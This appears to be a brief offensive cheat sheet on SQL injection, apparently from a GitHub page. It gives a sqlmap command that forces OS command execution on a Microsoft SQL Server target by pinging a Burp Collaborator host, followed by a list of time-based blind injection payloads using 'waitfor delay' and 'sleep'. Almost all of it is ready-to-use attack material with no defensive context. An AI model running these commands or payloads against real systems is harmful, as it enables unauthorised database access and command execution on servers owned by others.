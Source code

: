 <h1 align="center">SQLI --> SQL Injection</h1>
<h3>1</h3>
<a href="https://twitter.com/hackersden_/status/1465229358545526787"><img align="center" width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143884335-9adfa71d-7b23-49b7-9afb-996e800d1c68.png"/></a>

Run

```bash
  sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"
```


<a href="https://twitter.com/GodfatherOrwa/status/1439247081655447566"><img width="550" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/143886364-f03183e1-5922-4b79-9002-a04bfa55c56a.png"/></a>

Payloads
```
   ')) or sleep(5)='
   ;waitfor delay '0:0:5'--
   );waitfor delay '0:0:5'--
   ';waitfor delay '0:0:5'--
   ";waitfor delay '0:0:5'--
   ');waitfor delay '0:0:5'--
   ");waitfor delay '0:0:5'--
   ));waitfor delay '0:0:5'--
```
